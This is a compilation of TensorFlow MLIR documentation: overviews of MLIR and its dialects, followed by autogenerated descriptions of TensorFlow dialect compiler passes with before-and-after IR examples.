### Step 6: (Task 3) Migrated Device Ops

This step migrates all unnested ops, then we can delete all unnested emitters.

This calls on a rewrite/refactor for kCopy and kReduce. kReduce is already
worked on for plenty, so the actual amount of work that needs to be done remains
to be seen.
# MLIR dialects

## Overview


To separate different hardware and software targets, MLIR has “dialects”,
including:

* TensorFlow IR, which represents all things possible in TensorFlow graphs.
* XLA HLO IR, which is designed to take advantage of XLA’s compilation
  abilities (with output to, among other things, TPUs).
* An experimental affine dialect, which focuses on
  [polyhedral representations](https://en.wikipedia.org/wiki/Polytope_model)
  and optimizations.
* LLVM IR, which has a 1:1 mapping between it and LLVM’s own representation,
  allowing MLIR to emit GPU and CPU code through LLVM.
* TensorFlow Lite, which will translate to running code on mobile platforms.

Each dialect consists of a set of defined operations which have invariants
placed on them, like: “This is a binary operator, and the inputs and outputs
have the same types.”

## Adding to MLIR

MLIR has no fixed/built-in list of globally known operations (no “intrinsics”).
Dialects can define entirely custom types, which is how MLIR can model things
like the LLVM IR type system (which has first class aggregates), domain
abstractions important for ML-optimized accelerators like quantized types, and
even the Swift or Clang type systems (which are built around Swift/Clang
declaration nodes) in the future.

If you want to connect a new low-level compiler, you would create a new dialect
and the lowerings between the TensorFlow Graph dialect and your dialect.
This smooths the path for hardware and compiler makers. You can even target
dialects at different levels in the same model; the higher-level optimizers
will respect the unfamiliar parts of the IR and wait for a lower level to handle
it.
# MLIR

## Overview

MLIR, or Multi-Level Intermediate Representation, is a representation format
and library of compiler utilities that sits between the model representation
and low-level compilers/executors that generate hardware-specific code.

MLIR is, at its heart, a flexible infrastructure for modern optimizing
compilers. This means it consists of a specification for intermediate
representations (IR) and a code toolkit to perform transformations on that
representation. (In compiler parlance, as you move from higher-level
representations to lower-level representations, these transformations can be
called “lowerings”)

MLIR is highly influenced by [LLVM](https://llvm.org/) and unabashedly reuses
many great ideas from it. It has a flexible type system, and allows
representing, analyzing and transforming graphs combining multiple levels of
abstraction in the same compilation unit. These abstractions include TensorFlow
operations, nested polyhedral loop regions, and even LLVM instructions and fixed
hardware operations and types.

We expect MLIR to be of interest to many groups, including:

*   Compiler researchers and implementers looking to optimize performance and
    memory consumption of machine learning models
*   Hardware makers looking for a way to connect their hardware to TensorFlow,
    such as TPUs, portable neural hardware in phones, and other custom ASICs
*   People writing language bindings that want to take advantage of optimizing
    compilers and hardware acceleration.

The TensorFlow ecosystem contains a number of compilers and optimizers that
operate at multiple levels of the software and hardware stack. We expect the
gradual adoption of MLIR to simplify every aspect of this stack.


<!-- Autogenerated by mlir-tblgen; don't manually edit -->
### `-cluster-tf-ops-by-host`: Cluster the TensorFlow ops by host so that each function only contains ops placed on the same host
### `-constant-op-device-assignment`: Assign device for tf.Const ops
### `-convert-tf-control-flow-to-scf`: Convert TensorFlow control flow to SCF.
This pass can be used for all direct control flow lowerings from the TensorFlow
dialect to the SCF dialect.
### `-prepare-tpu-computation-for-tf-export`: Prepare TPU computation to be legal for export to TensorFlow
Prepares TPU computation module attached to _TPUCompileMlir op for
TensorFlow graph export by making transformation such as replacing or
removing MLIR or XLA specific attributes that are not legal in TensorFlow
graph.
### `-tf-batch-matmul-to-tf-einsum`: Replace TF BatchMatMul op by TF Einsum op.
### `-tf-broadcast-fold`: Fold explicit broadcasts into the following operations if they support implicit broadcasting on their operand.
### `-tf-data-optimization`: Performs tf.data optimizations
### `-tf-device-cluster-formation`: Form clusters from instructions assigned to same device
Clusters operations with the same device assignment id. For each
cluster, creates a "tf_device.device_launch" op with a Region containing the
ops in each cluster and replaces the ops with the new launch op.

For example, given the following program:

```mlir
  %2 = "tf.A"(%arg0) : (tensor<?xi32>) -> tensor<?xi32>
  %3 = "tf.B"(%2) {device = "tpu0"} : (tensor<?xi32>) -> tensor<?xi32>
  %4 = "tf.C"(%2, %3) {device = "tpu0"} : (tensor<?xi32>, tensor<?xi32>) -> tensor<?xi32>
  %5 = "tf.D"(%4) : (tensor<?xi32>) -> tensor<?xi32>
```

After the pass, we will have:

```mlir
  %0 = "tf.A"(%arg0) : (tensor<?xi32>) -> tensor<?xi32>
  %1 = "tf_device.launch"() ( {
    %3 = "tf.B"(%0) : (tensor<?xi32>) -> tensor<?xi32>
    %4 = "tf.C"(%0, %3) : (tensor<?xi32>, tensor<?xi32>) -> tensor<?xi32>
    tf_device.return %4 : tensor<?xi32>
  }) {device = "tpu0"} : () -> tensor<?xi32>
  %2 = "tf.D"(%1) : (tensor<?xi32>) -> tensor<?xi32>
  return %2 : tensor<?xi32>
```
### `-tf-device-cluster-outlining`: Outlines regions of tf_device.cluster operations
This pass outlines the body of a `tf_device.cluster` into a function and
replaces the `tf_device.cluster` op with an equivalent `tf_device.cluster_func`
op. Implicit operands will be captured and materialized as explicit arguments to
the newly created functions and associated `tf_device.cluster_func` ops.

For example, the following:

```mlir
func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  %cluster = "tf_device.cluster"() ( {
    %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
    tf_device.return %identity : tensor<i32>
  }) : () -> (tensor<i32>)
  return %cluster : tensor<i32>
}
```

will be transformed into:

```mlir
func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  %cluster = "tf_device.cluster_func"(%arg0) {func = @_func} : (tensor<i32>) -> tensor<i32>
  return %cluster : tensor<i32>
}

func @_func(%arg0: tensor<i32>) -> tensor<i32> {
  %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
  return %identity : tensor<i32>
}
```
### `-tf-device-constant-sinking`: Sinks constants implicitly captured in a tf_device.cluster region.
This pass sinks implicitly captured constants (`tf.Const` ops) used by and into
a `tf_device.cluster` region. Performing this prior to outlining will reduce the
number of arguments of the outlined function.

For example, the following:

```mlir
func @cluster() -> tensor<i32> {
  %const = "tf.Const"() {value = dense<0> : tensor<i32>} : () -> tensor<i32>
  %cluster = "tf_device.cluster"() ( {
    %identity = "tf.Identity"(%const) : (tensor<i32>) -> tensor<i32>
    tf_device.return %identity : tensor<i32>
  }) : () -> (tensor<i32>)
  return %cluster : tensor<i32>
}
```

will be transformed into:

```mlir
func @cluster() -> tensor<i32> {
  %cluster = "tf_device.cluster"() ( {
    %const = "tf.Const"() {value = dense<0> : tensor<i32>} : () -> tensor<i32>
    %identity = "tf.Identity"(%const) : (tensor<i32>) -> tensor<i32>
    tf_device.return %identity : tensor<i32>
  }) : () -> (tensor<i32>)
  return %cluster : tensor<i32>
}
```
### `-tf-device-convert-launch-func-to-tf-call`: Rewrites tf_device::LaunchFuncOp to TF::PartitionedCallOp
This pass converts tf_device::LaunchFuncOp into an equivalent
TF::PartitionedCallOp so that it can be exported to TensorFlow GraphDef.
### `-tf-device-index-selector`: Fold tf.DeviceIndex to constant.
### `-tf-device-launch-outlining`: Outlines regions of tf_device.launch operations
This pass outlines the body of a `tf_device.launch` into a function and
replaces the `tf_device.launch` op with an equivalent `tf_device.launch_func`
op. Implicit operands will be captured and materialized as explicit arguments to
the newly created functions and associated `tf_device.launch_func` ops. The
`device` attribute from the `launch` op is transferred to `launch_func`.

For example, the following:

```mlir
func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  %launch = "tf_device.launch"() ( {
    %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
    tf_device.return %identity : tensor<i32>
  }) {device = "some_device"} : () -> (tensor<i32>)
  return %launch : tensor<i32>
}
```

will be transformed into:

```mlir
func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  %launch = "tf_device.launch_func"(%arg0) {device = "some_device", func = @_func} : (tensor<i32>) -> tensor<i32>
  return %launch : tensor<i32>
}

func @_func(%arg0: tensor<i32>) -> tensor<i32> {
  %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
  return %identity : tensor<i32>
}
```
### `-tf-device-mark-input-output-aliases`: Marks device cluster inputs-output pairs that read/write to the same variable as aliases
This pass analyzes the inputs and outputs to device cluster and marks those
input-output pairs as aliases (using `tf.aliasing_output` attribute) which read
and write to the same resource. This aliasing information can then be propagated
to XLA compiler for input/output buffer space optimizations.
### `-tf-drop-while-shape-invariant`: Drop `shape_invariant` attrbute from While/WhileRegion ops.
Drop `shape_invariant` attribute from tf.While and tf.WhileRegion op. This
would allow shape inference pass to further refine operand/result shapes of
these ops. This is only safe to do when compiling to XLA.
### `-tf-drop-while-shape-invariant-in-device-cluster`: Drop `shape_invariant` attrbute from While/WhileRegion ops inside device cluster.
Drop `shape_invariant` attribute from tf.While and tf.WhileRegion op only
inside device cluster. This would allow shape inference pass to further
refine operand/result shapes of these ops. This is only safe to do when
compiling to XLA.
### `-tf-einsum`: Transform Einsum to other TF Ops for the supported variants
### `-tf-executor-break-up-islands`: Transform from TF control dialect to TF executor dialect.
### `-tf-executor-convert-control-to-data-outputs`: Chain control outputs of while loop body
This pass converts the control outputs of a while loop body function to data
outputs. Thus, inter iteration control dependencies are transformed to
data dependencies. Since data dependencies can express which particular
operations in the while loop body are dependent on which inputs, it captures
inter iteration parallelism in while loop. Control dependencies on the other
hand create a barrier at the end of while loop body thus blocking any
parallelism across iterations.

For example, the following while loop body has a `%barrier` at the end.
Although there is no data/control dependency between `tf.AssignVariableOp`
for `%arg0` to `tf.AssignVariableOp` for `%arg1` across any iteration, the
while loop body has a control barrier (`%barrier`) at the end which forces
a dependency and the two assign variable ops must wait for each other to
complete before starting the next iteration. Transforming these control
outputs to data outputs removes the dependency between the two assign
variable ops, thus allowing them to run in parallel across iterations.

Before:

```mlir
!tf_res = type tensor<!tf_type.resource<tensor<f32>>>
func @while_body(%arg0: !tf_res, %arg1: !tf_res, %arg2: tensor<f32>, %arg3: tensor<f32>) -> (!tf_res, !tf_res, tensor<f32>, tensor<f32>) {
  %graph:4 = tf_executor.graph {
    %assign_0_control = tf_executor.island wraps "tf.AssignVariableOp"(%arg0, %arg2) : (!tf_res, tensor<f32>) -> ()
    %assign_1_control = tf_executor.island wraps "tf.AssignVariableOp"(%arg1, %arg3) : (!tf_res, tensor<f32>) -> ()
    %add_out, %add_control = tf_executor.island wraps "tf.Add"(%arg2, %arg3) : (tensor<f32>, tensor<f32>) -> tensor<f32>
    %mul_out, %mul_control = tf_executor.island wraps "tf.Mul"(%arg2, %arg3) : (tensor<f32>, tensor<f32>) -> tensor<f32>
    %barrier = tf_executor.island(%assign_0_control, %assign_1_control, %add_control, %mul_control) wraps "tf.NoOp"() : () -> ()
    tf_executor.fetch %arg0, %arg1, %add_out, %mul_out, %barrier : !tf_res, !tf_res, tensor<f32>, tensor<f32>, !tf_executor.control
  }
  return %graph#0, %graph#1, %graph#2, %graph#3 : !tf_res, !tf_res, tensor<f32>, tensor<f32>
}
```

After:

```mlir
func @while_body(%arg0: !tf_res, %arg1: !tf_res, %arg2: tensor<f32>, %arg3: tensor<f32>, %chain_0: tensor<i32>, %chain_1: tensor<i32>) -> (!tf_res, !tf_res, tensor<f32>, tensor<f32>, tensor<i32>, tensor<i32>) {
  %graph:6 = tf_executor.graph {
    %_, %chain_0_src = tf_executor.island wraps "tf.Identity"(%chain_0) : (tensor<i32>) -> tensor<i32>
    %_, %chain_1_src = tf_executor.island wraps "tf.Identity"(%chain_1) : (tensor<i32>) -> tensor<i32>
    %assign_0_control = tf_executor.island(%chain_0_src) wraps "tf.AssignVariableOp"(%arg0, %arg2) : (!tf_res, tensor<f32>) -> ()
    %assign_1_control = tf_executor.island(%chain_1_src) wraps "tf.AssignVariableOp"(%arg1, %arg3) : (!tf_res, tensor<f32>) -> ()
    %add_out, %add_control = tf_executor.island wraps "tf.Add"(%arg2, %arg3) : (tensor<f32>, tensor<f32>) -> tensor<f32>
    %mul_out, %mul_control = tf_executor.island wraps "tf.Mul"(%arg2, %arg3) : (tensor<f32>, tensor<f32>) -> tensor<f32>
    %chain_0_sink, %_ = tf_executor.island(%assign_0_control) wraps "tf.Identity"(%chain_0) : (tensor<i32>) -> tensor<i32>
    %chain_1_sink, %_ = tf_executor.island(%assign_1_control) wraps "tf.Identity"(%chain_1) : (tensor<i32>) -> tensor<i32>
    tf_executor.fetch %arg0, %arg1, %add_out, %mul_out, %chain_0_sink, %chain_1_sink : !tf_res, !tf_res, tensor<f32>, tensor<f32>, tensor<i32>, tensor<i32>
  }
  return %graph#0, %graph#1, %graph#2, %graph#3, %graph#4, %graph#5 : !tf_res, !tf_res, tensor<f32>, tensor<f32>, tensor<i32>, tensor<i32>
}
```
### `-tf-executor-graph-pruning`: Prunes unreachable ops in a tf_executor.graph
This pass removes ops from a `tf_executor.graph` that are not transitively, via
data or control dependencies, connected to the associated `tf_executor.fetch`
op. The order of ops will be preserved. Functions named `main` with no
`tf.entry_function` attribute will not be pruned, as such graphs/functions may
have been imported from a V1 TensorFlow graph, where feeds/fetches/targets are
not provided at certain stages of IR transformation (e.g. pre-placement).

Option `ops-to-preserve` allows to specify ops that should not be pruned,
regardless of their reachability.

For example, the following:

```mlir
func @graph(%arg0: tensor<i32>, %arg1: tensor<i32>) -> tensor<i32> {
  %graph = tf_executor.graph {
    %transitive_reachable_data:2 = tf_executor.island wraps "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
    %reachable_data:2 = tf_executor.island wraps "tf.Identity"(%transitive_reachable_data#0) : (tensor<i32>) -> tensor<i32>
    %unreachable_data:2 = tf_executor.island wraps "tf.Const"() {value = dense<0> : tensor<i32>} : () -> tensor<i32>
    %transitive_reachable_control = tf_executor.island wraps "tf.NoOp"() : () -> ()
    %reachable_control = tf_executor.island(%transitive_reachable_control) wraps "tf.NoOp"() : () -> ()
    %unreachable_control = tf_executor.island wraps "tf.NoOp"() : () -> tensor<i32>
    tf_executor.fetch %reachable_data#0, %reachable_control : tensor<i32>, !tf_executor.control
  }
  return %graph : tensor<i32>
}
```

will be transformed into:

```mlir
func @graph(%arg0: tensor<i32>, %arg1: tensor<i32>) -> tensor<i32> {
  %graph = tf_executor.graph {
    %transitive_reachable_data:2 = tf_executor.island wraps "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
    %reachable_data:2 = tf_executor.island wraps "tf.Identity"(%transitive_reachable_data#0) : (tensor<i32>) -> tensor<i32>
    %transitive_reachable_control = tf_executor.island wraps "tf.NoOp"() : () -> ()
    %reachable_control = tf_executor.island(%transitive_reachable_control) wraps "tf.NoOp"() : () -> ()
    tf_executor.fetch %reachable_data#0, %reachable_control : tensor<i32>, !tf_executor.control
  }
  return %graph : tensor<i32>
}
```

#### Options
```
-ops-to-preserve : Comma separated list of ops that should not be pruned regardless of reachability
```
### `-tf-executor-island-coarsening`: Walks tf_executor::GraphOp and merges individual tf_executor::IslandOps.
This pass performs whole graph analysis for a graph encapsulated into tf_executor::GraphOp.
The analysis identifies all IslandOps within the graph which could be merged together.
The goal is to merge as many islands as possible.
Once analysis is completed, the pass merges all IslandOps in a single scan.

For example given the following program with two disjunct islands:

```mlir
  func @test(%arg0 : tensor<i1>) -> tensor<f32> {
    %0 = tf_executor.graph {
      %1:2 = tf_executor.island {
        %3 = "tf.opA"(%arg0) : (tensor<i1>) -> tensor<i1>
        tf_executor.yield %3 : tensor<i1>
      }
      %2:2 = tf_executor.island(%1#1) {
        %4 = "tf.opB"() : () -> tensor<f32>
        tf_executor.yield %4 : tensor<f32>
      }
      tf_executor.fetch %2#0 : tensor<f32>
    }
    return %0 : tensor<f32>
  }
```

After running this pass, the two islands are merged:

```mlir
  func @test(%arg0: tensor<i1>) -> tensor<f32> {
    %0 = tf_executor.graph {
      %outputs, %control = tf_executor.island {
        %1 = "tf.opA"(%arg0) : (tensor<i1>) -> tensor<i1>
        %2 = "tf.opB"() : () -> tensor<f32>
        tf_executor.yield %2 : tensor<f32>
      }
      tf_executor.fetch %outputs : tensor<f32>
    }
    return %0 : tensor<f32>
  }
```
### `-tf-executor-to-functional-conversion`: Lifts tf_executor.island inner ops from a tf_executor.graph
This pass converts tf_executor.graphs consisting of only tf_executor.islands and
a tf_executor.fetch into a sea of nodes consisting of TensorFlow Dialect ops by
lifting such ops out of a tf_executor.graph's tf_executor.islands. If V1 control
flow ops are present in a tf_executor.graph, an error will be returned.

For example, the following:

```mlir
func @my_fn(%arg0: tensor<i32>, %arg1: tensor<i32>) -> (tensor<i32>, tensor<i32>) {
  %graph_results:2 = tf_executor.graph {
    %island_0_result, %island_0_control = tf_executor.island {
      %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
      tf_executor.yield %identity : tensor<i32>
    }
    %island_1_result, %island_1_control = tf_executor.island {
      %identity_n:2 = "tf.IdentityN"(%arg1, %island_0_result) : (tensor<i32>, tensor<i32>) -> (tensor<i32>, tensor<i32>)
      tf_executor.yield %identity_n#0
    }
    tf_executor.fetch %island_0_result, %island_1_result : tensor<i32>, tensor<i32>
  }
  return %graph_results#0, %graph_results#1 : tensor<i32>, tensor<i32>
}
```

will be transformed into:

```mlir
func @my_fn(%arg0: tensor<i32>, %arg1: tensor<i32>) -> (tensor<i32>, tensor<i32>) {
  %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
  %identity_n:2 = "tf.IdentityN"(%arg1, %identity) : (tensor<i32>, tensor<i32>) -> (tensor<i32>, tensor<i32>)
  return %identity, %identity_n#0 : tensor<i32>, tensor<i32>
}
```
### `-tf-executor-tpu-v1-island-coarsening`: Merges TPU clusters IslandOps, intended for V1 compatibility mode
This pass is a variant of ExecutorIslandCoarseningPass that is limited to
TPU-annotated operations and intended to preserve backward compatibility with
TFv1.
### `-tf-executor-tpu-v1-island-inlining`: Inline calls to the nested TPU module.
This pass inlines the islands calling into the nested module that was
outlined, thus reversing the effect of the
`-tf-executor-tpu-v1-island-outlining` pass.

For example, the following:
```mlir
module {
  func @foo(%arg0: tensor<f32>) -> tensor<f32> {
    %0 = tf_executor.graph {
      %outputs, %control = tf_executor.island wraps "tf.PartitionedCall"(%arg0) {f = @_tpu_v1_compat_outlined::@bar} : (tensor<f32>) -> tensor<f32>
      tf_executor.fetch %outputs : tensor<f32>
    }
    return %0 : tensor<f32>
  }
  module @_tpu_v1_compat_outlined {
    func nested @bar(%arg0: tensor<f32>) -> tensor<f32> {
      %0 = "tf.opA"(%arg0) : (tensor<f32>) -> tensor<f32>
      return %0 : tensor<f32>
    }
  }
}
```

will be transformed into:

```mlir
module  {
  func @foo(%arg0: tensor<f32>) -> tensor<f32> {
    %0 = tf_executor.graph {
      %outputs, %control = tf_executor.island {
        %1 = "tf.opA"(%arg0) : (tensor<f32>) -> tensor<f32>
        tf_executor.yield %1 : tensor<f32>
      }
      tf_executor.fetch %outputs : tensor<f32>
    }
    return %0 : tensor<f32>
  }
}
```
### `-tf-executor-tpu-v1-island-outlining`: Outline TPU clusters from island into a nested module, so it can be processed like a V2 module, intended for V1 compatibility mode
Extract the islands containing a TPU cluster computation into an outlined
function in a nested module. This will allow to run the usual bridge on this
nested module which now exhibits a more friendly "V2-like" structure.
This is only intended for V1 compatibility mode where the bridge runs without
feed/fetches on session create/extend.

So given e.g.

```mlir
  func @test() -> tensor<i32> {
    %0 = tf_executor.graph {
      %output, %control = tf_executor.island {
        ...
        tf_executor.yield %result : tensor<i32>
      }
      tf_executor.fetch %output : tensor<i32>
    }
    return %0
  }
```

This pass will create an additional function containing the code in
tf_executor.island:

```mlir
  func nested @_tpu_v1_compat_outlined_func0() -> tensor<i32> {
    ...
  }
```

and will then replace the island with the wrapped call:

```mlir
  func @test() -> tensor<i32> {
    %0 = tf_executor.graph {
      %outputs, %control = tf_executor.island wraps "tf.PartitionedCall"() {
          f = @_tpu_v1_compat_outlined::@_tpu_v1_compat_outlined_func0
      } : () -> tensor<i32>
      tf_executor.fetch %outputs : tensor<i32>
    }
    return %0 : tensor<i32>
  }
```
### `-tf-functional-control-flow-to-cfg`: Transform functional control flow Ops to MLIR Control Form Graph (CFG) form
### `-tf-functional-control-flow-to-regions`: Transforms functional control flow operations to their region-based counterparts
This pass transforms functional control flow operations in the TensorFlow
dialect to their region-based counterparts, i.e., `tf.If` is transformed to
`tf.IfRegion` and `tf.While` is transformed to `tf.WhileRegion`.

For example, this functional operation

```mlir
  %0 = "tf.If"(%arg0, %arg1) {
    then_branch = @then_branch_func, else_branch = @else_branch_func, is_stateless = false
  } : (tensor<i1>, tensor<*xf32>) -> tensor<*xf32>
```

will be transformed into this region-based operation

```mlir
    %0 = "tf.IfRegion"(%arg0) ( {
      %1 = call @then_branch_func(%arg1) : (tensor<*xf32>) -> tensor<*xf32>
      "tf.Yield"(%1) : (tensor<*xf32>) -> ()
    },  {
      %1 = call @else_branch_func(%arg1) : (tensor<*xf32>) -> tensor<*xf32>
      "tf.Yield"(%1) : (tensor<*xf32>) -> ()
    }) {is_stateless = false} : (tensor<i1>) -> tensor<*xf32>
```
### `-tf-functional-to-executor-conversion`: Transform from func op to TF executor dialect.
### `-tf-fused-kernel-matcher`: Matches computations corresponding to optimized fused kernels
### `-tf-gpu-op-fusion`: Fusion optimization for GPU targets
This pass is performing fusion specific to GPU targets. This is an ad-hoc
pass for now, but should be integrated with some notion of "target" in the
MLIR pipeline in the future.
### `-tf-guarantee-all-funcs-one-use`: Guarantee all FuncOp's have only a single use.
### `-tf-hoist-replicate-invariant-resource-writes`: Hoists writes to replicate invariant resource variables.
This pass hoists replicate invariant resource variable writes outside
tf_device.replicate op. These may have been inserted by other passes such as
resource op lifting. However, if the resource variable is not replicated, writes
to such variables for each replica are redundant and can be replaced by writing
a single value from first replica.

The benefit of this optimization is reduced memory requirement on host. For
multiple writes (one from each replica) to such variables, the host would
allocate buffer space to recieve the device output from all replicas, which is
not required. We can use the output of first replica in such cases.
### `-tf-init-text-file-to-import`: convert InitializeTableFromTextFileV2 ops to LookupTableImportV2Op to remove the dependency on asset files

#### Options
```
-tf-saved-model-dir : Directory containing the model exported as a TensorFlow SavedModel. If your model is not based on the TensorFlow SavedModel, use an empty value.
```
### `-tf-layout-assignment`: Layout assignment pass.

#### Options
```
-force-data-format : Force data format for all layout sensitive ops.
```
### `-tf-legalize-hlo`: Legalize from HLO to the TF dialect
### `-tf-lower-quantized`: Lowers ops that require quantized input or output.
This pass rewrites all ops that have at least one input or output that must
be a quantized type to ops whose inputs and outputs allow non-quantized
types. Examples of quantized types are TF_Qint8 or TF_Quint8.

An example is TF_DequantizeOp, which converts a quantized type to a float.
This op is rewritten to generic ops that perform the scale and shift
and can operate on non-quantized types.

Currently, TF_DequantizeOp is the only op with a lowering that falls
in this category. When more lowerings are added (e.g. QuantizeV2Op),
they should be added to this pass.
### `-tf-mark-ops-for-outside-compilation`: Marks ops in device cluster for outside compilation if they are unsupported on device.
This pass marks unsupported ops in a device cluster with
`_xla_outside_compilation` attribute so the operations will run on the host
instead of the device. Unsupported ops are ops that can not be code
generated to run on the device for the cluster including:

1. String operations on TPUs.
2. Operations that don't have a kernel defined for the device.

This pass is conservative in that it will mark all ops for outside compilation
that can not be compiled for the device.  Exceptions for this are added for ops
that will be rewritten or decomposed before compiling on device.


For example, tf_device.cluster op with an unsupported op, tf.UnsupportedOp:

```mlir
func @unsupported_op() -> tensor<i32> {
  %0 = "tf_device.cluster"() ( {
    %1 = "tf.UnsupportedOp"() : () -> tensor<i32>
    %2 = "tf.Identity"(%1) : (tensor<i32>) -> tensor<i32>
    tf_device.return %2 : tensor<i32>
  }) {allow_soft_placement = true, num_cores_per_replica = 1, topology =  "", device_assignment =  []} : () -> tensor<i32>
  return %0 : tensor<i32>
}
```

will mark tf.UnsupportedOp with `_xla_outside_compilation` attribute:

```mlir
func @unsupported_op() -> tensor<i32> {
  %0 = "tf_device.cluster"() ( {
    %1 = "tf.UnsupportedOp"() {_xla_outside_compilation = "auto0"} : () -> tensor<i32>
    %2 = "tf.Identity"(%1) : (tensor<i32>) -> tensor<i32>
    tf_device.return %2 : tensor<i32>
  }) {allow_soft_placement = true, device_assignment = [], num_cores_per_replica = 1 : i64, topology = ""} : () -> tensor<i32>
  return %0 : tensor<i32>
}
```
### `-tf-materialize-passthrough-op`: Materialize the MlirPassthroughOp by replacing it with the MLIR module attached as an attribute
A pass that replaces MlirPassthrough ops with the code they have in
their `mlir_module` string attribute.
### `-tf-merge-control-flow`: Merges IfRegion ops together with a common predicate.
This pass merges IfRegion ops together if they have the same predicate and it
is safe to do so (there are no intermediate dependencies, they are in the
same block, etc).

For example:

```mlir
"tf.IfRegion"(%0) ( {
  %2 = "tf.A"() : () -> (tensor<f32>)
  "tf.Yield"() : () -> ()
  }, {
  "tf.Yield"() : () -> ()
 }) { is_stateless = true } : (tensor<i1>) -> ()
"tf.IfRegion"(%0) ( {
  %2 = "tf.B"() : () -> (tensor<f32>)
  "tf.Yield"() : () -> ()
  }, {
  "tf.Yield"() : () -> ()
  }) { is_stateless = true } : (tensor<i1>) -> ()
```

Would be transformed to:

```mlir
"tf.IfRegion"(%0) ( {
  %2 = "tf.A"() : () -> (tensor<f32>)
  %3 = "tf.B"() : () -> (tensor<f32>)
  "tf.Yield"() : () -> ()
  }, {
  "tf.Yield"() : () -> ()
  }) { is_stateless = true } : (tensor<i1>) -> ()
```
### `-tf-move-transposes`: Move transposes pass.

#### Options
```
-fold-transpose-in-ops : Whether to fold transposes in ops which can support folding.
-direction             : Move transposes to the beginning or the end of the block where they are defined.
```
### `-tf-optimize`: Optimize TensorFlow module
### `-tf-outside-compiled-to-host-launch`: Wraps each op with the _xla_outside_compiled attribute in a separate tf_device.launch on replicated host device.
This pass wraps ops with the same `_xla_outside_compilation`
attribute value in a tf_device.launch op with host device assignment.

A simple example:

```mlir
  "tf_device.cluster"() ( {
    "tf.A"()
    "tf.B"() {_xla_outside_compilation = "cluster1"}
    "tf.C"()
    tf_device.return
  }) {num_cores_per_replica = 1, topology =  "", device_assignment =  []}
```

Would become the following ops (unimportant attribute, type are omitted):

```mlir
  "tf_device.cluster"() ( {
    "tf.A"()
    "tf_device.launch"() {
      "tf.B"() {_xla_outside_compilation = "cluster1"}
      tf_device.return
    } {device = "TPU_REPLICATED_HOST"} : () -> ()
    "tf.C"()
    tf_device.return
  }) {num_cores_per_replica = 1, topology =  "", device_assignment =  []}
```
### `-tf-parallel-execute-to-islands`: Lowers device parallel_execute to executor islands
### `-tf-promote-resources-to-args`: Promote resources reads/writes to function inputs/outputs.
This pass promotes resource accesses in function(s) (by default, the main)
to input arguments and outputs of the function(s).

Two types of resources are supported:
(1) A function argument of TF::ResourceType type (this pass).
(2) A VarHandleOp in the function (tf-promote-var-handles-to-args).

After the pass,

 . The function will have an input argument for each resource that is
   already provided as an input argument or is read. The type of the input
   argument will become the shape of the value represented by the resource.

 . The function will have an output for each resource that is written. The
   type of the output will become the shape of the resource.

The information of variable identification and input-output alising is
recorded as named attributes of the input argument or output:

 . 'tf.resource_name' matches 'shared_name' of VarHandleOp, which represents
   the identifier of the corresponding resource. This attribute is added to
   an input argument if the initial value of the resource is read, or to the
   output if the initial value is not read.

 . 'tf.aliasing_output' is the index of the function output that is an alias
   of the input argument. This attribute is added only to the input argument
   when the initial value of the corresponding resource is read, and the
   resource is written later.

Assumption of this pass:
 . Compound resource operations have already been decomposed.
 . Dead functions have already been removed, as resource arguments in dead
   functions can cause the pass to fail.

#### Options
```
-functions : Comma separated list of functions whose resources read/writes should be promoted to function inputs/outputs.
```
### `-tf-promote-var-handles-to-args`: Promote tf.VarHandleOps to function arguments.
See joint description in promote resources to args.### `-tf-readonly-references-to-resources`: Convert readonly reference variables to resource variables.
### `-tf-region-control-flow-to-functional`: Transforms region-based control flow operations to their functional counterparts
This pass transforms region-based control flow operations in the TensorFlow
dialect to their functional counterparts, i.e., `tf.IfRegion` is transformed to
`tf.If` and `tf.WhileRegion` is transformed to `tf.While`.

For example, this region-based operation

```mlir
    %0 = "tf.IfRegion"(%arg0) ( {
      %1 = call @then_branch_func(%arg1) : (tensor<*xf32>) -> tensor<*xf32>
      "tf.Yield"(%1) : (tensor<*xf32>) -> ()
    },  {
      %1 = call @else_branch_func(%arg1) : (tensor<*xf32>) -> tensor<*xf32>
      "tf.Yield"(%1) : (tensor<*xf32>) -> ()
    }) {is_stateless = false} : (tensor<i1>) -> tensor<*xf32>
```

will be transformed into this functional operation

```mlir
  %0 = "tf.If"(%arg0, %arg1) {
    then_branch = @then_branch_func, else_branch = @else_branch_func, is_stateless = false
  } : (tensor<i1>, tensor<*xf32>) -> tensor<*xf32>
```
### `-tf-replicate-invariant-op-hoisting`: Hoists replicate invariant operations out of replicate
This pass looks for replicate invariant ops in a `tf_device.replicate` op
region and hoists them out. It also makes `tf.Shape` ops replicate invariant
if possible. This currently updates or replaces `tf.Shape` ops of replicated
arguments, either tensors or resources.

For example, the following

```mlir
tf_device.replicate([%0, %1] as %ri: tensor<*xi32>) {n = 2 : i32} {
  %2 = "tf.Shape"(%ri) : (tensor<*xi32>) -> tensor<?xi32>
  tf_device.return
}
```

gets converted to

```mlir
tf_device.replicate([%0, %1] as %ri: tensor<*xi32>) {n = 2 : i32} {
  %2 = "tf.Shape"(%0) : (tensor<*xi32>) -> tensor<?xi32>
  tf_device.return
}
```

and for resource variables the following

```mlir
tf_device.replicate([%0, %1] as %ri: tensor<*x!tf_type.resource>) {n = 2 : i32} {
  %2 = "tf.ReadVariableOp"(%ri) : tensor<*x!tf_type.resource> -> tensor<*xi32>
  %3 = "tf.Shape"(%2) : (tensor<*xi32>) -> tensor<?xi32>
  tf_device.return
}
```

gets converted to

```mlir
tf_device.replicate([%0, %1] as %ri: tensor<*x!tf_type.resource>) {n = 2 : i32} {
  %2 = "tf.ReadVariableOp"(%ri) : tensor<*x!tf_type.resource> -> tensor<*xi32>
  %3 = "tf.VariableShape"(%0) : (tensor<*x!tf_type.resource>) -> tensor<?xi32>
  tf_device.return
}
```
### `-tf-replicate-to-island`: Lowers device replicate to executor islands
